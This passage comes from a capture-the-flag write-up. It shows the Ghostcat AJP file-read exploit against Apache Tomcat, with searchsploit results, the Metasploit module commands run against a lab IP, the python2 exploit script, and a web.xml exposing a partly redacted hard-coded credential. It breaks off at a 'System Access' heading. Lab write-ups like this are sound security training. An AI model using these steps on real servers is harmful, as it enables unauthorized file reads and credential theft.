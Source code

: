 We saw AJP running on the nmap scan at port 8009 and the version of tomcat itself is vulnerable, so this sounds promising. I run a searchsploit to see if there is anything listed and find:

`searchsploit tomcat`

```
Apache Tomcat - AJP 'Ghostcat File Read/Inclusion                     | multiple/webapps/48143.py
Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit)       | multiple/webapps/49039.rb
```

Coincidence that the word ghost is in this ctf name and also in the vulnerabillity? I doubt it.

Starting up metasploit and testing it out:

```
msfconsole
use auxiliary/admin/http/tomcat_ghostcat
set rhosts 10.10.43.109
run
```

And we get back the web.xml file, and inside it there appears to be a hard coded username and password:

```xml
  <description>
     Welcome to GhostCat
        skyf*ck:<REDACTED>
  </description>
```

The web.xml file was used because it often contains sensitive information. A description of the file:

```
/WEB-INF/web.xml - The Web Application Deployment Descriptor for your application. This is an XML file describing the servlets and other components that make up your application, along with any initialization parameters and container-managed security constraints that you want the server to enforce for you. This file is discussed in more detail in the following subsection.
```

I also try and view the /META-INF/context.xml file since it can also have sensitive information but it does not work.

And finally I run the Python script version of the exploit too after taking a look through the code just because:

`searchsploit -m 48143`

`python2 48143.py $ip`

And we get back the web.xml file just like we did in metasploit. Note: when running this exploit with the python3 or python commands it gave me a buffer overflow error, but python2 did work. It also defaults the port to 8009 and file to web.xml so we don't need to specify those parameters.

<br>

## System Access
